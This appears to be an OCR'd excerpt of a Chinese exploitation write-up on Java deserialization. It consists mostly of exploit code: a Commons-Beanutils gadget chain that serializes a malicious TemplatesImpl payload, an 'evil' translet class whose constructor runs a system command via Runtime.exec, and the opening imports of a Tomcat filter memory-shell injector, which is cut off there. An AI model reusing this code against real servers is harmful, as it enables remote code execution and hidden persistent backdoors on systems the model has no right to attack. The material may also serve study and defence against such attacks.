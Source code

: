 ```bash
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.get(Serialize_Evil.class.getName());
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{ctClass.toBytecode()});
        setFieldValue(templates, "_name", "123");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        BeanComparator beanComparator = new BeanComparator("outputProperties");
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        setFieldValue(priorityQueue, "queue", new Object[]{templates, templates});
        setFieldValue(priorityQueue, "size", 2);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(priorityQueue);
        System.out.println(toHexAscii(baos.toByteArray()));
    }
}
```

```bash
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class  Serialize_Evil extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public Serialize_Evil() throws Exception {
        super();
        Runtime.getRuntime().exec("ping xxxxx");
    }
}
```

如果要打一个 filter 内存马

```bash
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
```